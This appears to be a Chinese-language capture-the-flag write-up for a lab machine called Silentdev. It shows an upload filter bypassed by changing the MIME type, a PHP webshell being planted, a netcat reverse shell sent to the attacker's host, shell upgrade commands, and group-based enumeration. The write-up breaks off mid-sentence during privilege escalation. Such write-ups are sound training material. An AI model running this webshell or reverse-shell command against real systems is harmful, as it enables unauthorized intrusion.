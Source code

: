 # Silentdev(med)
nmap扫描
![](vx_images/569335666002309.png)
web页面直白的一个文件上传
看源码upload.php
![](vx_images/523507250014459.png)
扫描到uploads目录
![](vx_images/538646504122654.png)
bp抓包测试了一下
直接修改mime头绕过
```
<?php
system('$_REQUEST[cmd]');
```
不知道为什么system一执行就出错500,换eval
上线webshell再把权限传回kali
```
nc 192.168.56.101 4444 -e /bin/bash
```
升级shell
```
python3 -c "import pty; pty.spawn('/bin/sh -i')"bash也不行
```
使用
```
script -qc /bin/bash /dev/null
```
![](vx_images/418824821130726.png)
看到web用户在1004组
刚好符合权限可以查看用户
但是没什么东西
尝试sudo,suid提权,也没啥利用
计划任务也没啥
感觉突破点在组的权限上
查看可以通过组来访问的文件
```
find / -group developers 2>/dev/null
```
![](vx_images/593317574785733.png)
/opt/project中有一个html文件将其放在html目录下查看
![](vx_images/469967722326549.png)
猜想可能有developer的密码?
尝试ssh登录没成功
看一下backups目录
![](vx_images/437083918260225.png)
解压后是一个相同的html文件
突然意识到可以




